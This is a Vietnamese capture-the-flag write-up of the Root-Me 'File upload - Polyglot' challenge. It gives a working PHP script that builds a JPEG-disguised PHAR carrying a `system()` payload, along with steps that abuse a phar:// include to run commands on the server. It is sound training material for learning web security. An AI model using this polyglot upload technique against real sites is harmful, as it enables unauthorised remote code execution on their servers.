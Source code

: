 # File Upload - Polyglot

**Tên challenge:**  Are You Bilingual ?

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Polyglot)

**Tác giả challenge:** Cyxo

**Mục tiêu challenge:**
Your friend who is a photography fan has created a site to allow people to share their beautiful photos. He assures you that his site is secure because he checks that the file sent is a JPEG, and that it is not a disguised PHP file. Prove him wrong!

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta sẽ thấy trang Web có 2 chức năng tương ứng với 2 mục, 1 là Upload ảnh, 2 là Admin Panel.
	
![alt text](./images/image.png)

![alt text](./images/image-1.png)

**B2:** Ta thử Upload 1 file ảnh có tên `meo.jpg` bình thường thì Website sẽ trả về dòng text nếu thành công như sau:

![alt text](./images/image-2.png)

Ta thử click vào file ảnh đó thì nó mở ra 1 trang URL có đường dẫn là:
```
/uploads/phpZDJmGL.jpg
```
**B3:** Ta bắt lại gói tin POST trong Burpsuite rồi thử chèn nội dung `<?php phpinfo(); ?>` vào file ảnh vừa đăng , đồng thời đổi đuổi file thành `.php`.

Trang Web trả về dòng text:
```
This is a fake JPEG!
```

Sau khi thử vài lần với chức năng Upload ảnh của trang Web thì ta rút được vài thông tin sau để có thể Upload ảnh thành công:
1. Tên File nhất định phải có đuôi `.jpg`
2. Nội dung File nhất định phải bắt đầu bằng các byte: `\xff\xd8\xff\xff\xd9`

Ngoài ra, ta cũng không thể kiểm soát được tên File vì dù cho bạn đặt tên File là gì thì hệ thống cũng sẽ đổi tên random.

**B4:** Ta thử nghiên cứu trang Admin Panel để tìm thêm thông tin.

Sau khi mài mò thì ta biết được trang Admin Panel nhận input là 1 đường dẫn tới file `PHAR` rồi thực thi nó. 

Ngoài ra, khi ta nhập 1 đường dẫn không có file `PHAR` nó sẽ output 1 dòng lỗi:
```
Error when including PHAR file "": include(): Failed opening 'phar://' for inclusion (include_path='.:/usr/local/lib/php')
```
* <u>**Giải thích:**</u> Lỗi này xảy ra khi PHP cố gắng tải một tệp `PHAR` bằng phương thức `include` hoặc `require` nhưng không thành công. Thông báo lỗi chỉ ra rằng PHP không thể mở tệp `PHAR` qua giao thức `phar://`

**Câu hỏi ở đây là:** File PHAR ở đâu ? Liệu ta có thể lợi dụng chức năng này để thực thi code không ? Và làm sao nó có thể thực thi được File PHAR nếu những file ảnh ta đưa lên đều được đổi tên ngẫu nhiên và luôn phải có dạng `.jpg`

* **Trả lời:** Sau khi đi tìm hiểu về các tài liệu trên mạng thì ta biết được: Các tệp `PHAR` chứa dữ liệu meta ở định dạng được `Serialize`, do đó, khi được phân tích cú pháp bởi Webserver thì siêu dữ liệu này sẽ được `Deserialize` và bạn có thể thử lạm dụng lỗ hổng `Deserialize` này để chèn mã code PHP để trong quá trình `Deserialize` nó sẽ thực thi code đó.
* Điều hay nhất về đặc điểm này là quá trình khử phân tích này sẽ xảy ra ngay cả khi sử dụng các hàm PHP như `file_get_contents()`, `fopen()`, `file()` hoặc `file_exists()`,...

* Vì vậy, hãy tưởng tượng một tình huống trong đó bạn có thể làm cho một trang web PHP thực thi một file `PHAR` tùy ý do ta tải lên và thông qua giao thức 
`phar://` của Website đến đường dẫn file `PHAR` mà ta tải lên thì nó sẽ thực thi code bên trong file đó.

Tóm lại, kế hoạch của ta là bắt đầu thực hiện tạo 1 file `PHAR` có nội dung code PHP rồi đổi tên nó thành `.jpg` và đăng lên Website rồi dùng chức năng ở Admin Panel đưa ta đến đường dẫn file chứa nội dung `PHAR` của ta.

**B5:** Ta bắt đầu tạo file PHAR theo những gì tìm hiểu được trên mạng

Đầu tiên, ta tạo 1 file `test.php` có nội dung:
```
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', '<?php system("ls"); ?>');
$phar->setStub("\xff\xd8\xff\xff\xd9\n<?php __HALT_COMPILER(); ?>");
$phar->stopBuffering();
```
<u>**Giải thích code:**</u>
1. `$phar = new Phar('test.phar')`: Tạo một đối tượng `PHAR` mới đại diện cho tệp `test.phar`.
2. `$phar->startBuffering()`: để bắt đầu quá trình lưu trữ dữ liệu vào bộ nhớ đệm, thay vì ngay lập tức ghi vào tệp `PHAR`. Điều này giúp cho các thay đổi chỉ được áp dụng khi stopBuffering() được gọi.
3. `$phar->addFromString('test.txt', '<?php system("ls"); ?>')`: Thêm một tệp có tên `test.txt` vào bên trong `test.phar`. Nội dung của `test.txt` là đoạn mã PHP `<?php system("ls"); ?>`, mà nếu được thực thi, sẽ chạy lệnh hệ thống `ls` để hiển thị các file ở thư mục hiện tại.
4. `phar->setStub("\xff\xd8\xff\xff\xd9\n<?php __HALT_COMPILER(); ?>")`:
* `setStub()`: thiết lập đoạn mã stub cho tệp PHAR, tức là đoạn mã sẽ được chạy đầu tiên khi tệp PHAR này được thực thi.
* `\xff\xd8\xff\xff\xd9` là một đoạn magic byte nhằm làm cho tệp `PHAR` có vẻ giống tệp ảnh (JPG) để vượt qua cơ chế kiểm tra file ảnh của Website.
* `<?php __HALT_COMPILER(); ?>`: Kết thúc đoạn mã PHP, mục đích ngăn những đoạn `dữ liệu PHAR` sau đó được xử lý như mã PHP. Lệnh `__HALT_COMPILER()` chỉ ra cho PHP rằng sau đây là dữ liệu nhị phân, không phải mã PHP.

Tiếp theo, ta sẽ compile file `test.php` này thành file `test.phar`, sau đó đổi tên file từ `test.phar` -> `test.jpg`:
```
php --define phar.readonly=0 test.php && mv test.phar test.jpg
```
**Tham khảo thêm:** [Link 1](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams), [Link 2](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)

**B6:** Ta Upload file `test.jpg` lên trên Website

![alt text](./images/image-3.png)

=> Vậy là ta đã thành công Upload 1 file `PHAR` dưới danh 1 file `.jpg`.

Ta lưu lại đường dẫn tới file `PHAR` của ta:
```
/uploads/phpqyfiQU.jpg
```
**B7:** Ta qua Admin Panel và bắt đầu đưa đường dẫn đến file của ta.

Nhưng kết quả vẫn in ra lỗi, vì ta vẫn chưa biết được đường dẫn chính xác của thư mục `uploads` đang ở đâu.

Vậy thì làm sao ta biết được thư mục uploads đang ở đầu
Trả lời: Khi ta Click thử nút Submit ở chức năng Upload ảnh mà không chọn File ảnh nào trước đó, nó sẽ in ra dòng lỗi sau:
```
Fatal error: Uncaught ValueError: Path cannot be empty in /var/www/html/index.php:22 Stack trace: #0 /var/www/html/index.php(22): fopen('', 'rb') #1 {main} thrown in /var/www/html/index.php on line 22
```
=> Từ lỗi trên, ta biết được đường dẫn của Web của nó là `/var/www/htlm/`

**B8:** Ta thử input đường dẫn `/var/www/html/uploads/phpqyfiQU.jpg/test.txt` ở trang Admin Panel.

![alt text](./images/image-4.png)

=> Vậy là ta đã làm cho hệ thống thực thi file `PHAR` của ta

**Lưu ý:** Input bắt buộc phải có thêm `/test.txt` vì file `/test.txt` mới là file chứa code PHP mà ta đã ẩn nó ở trong file `.jpg`.

**B9:** Tiếp theo, ta chỉ cần sửa code PHP thành `cat flag....` và lặp lại các bước trên là ta sẽ thành công lấy được Flag.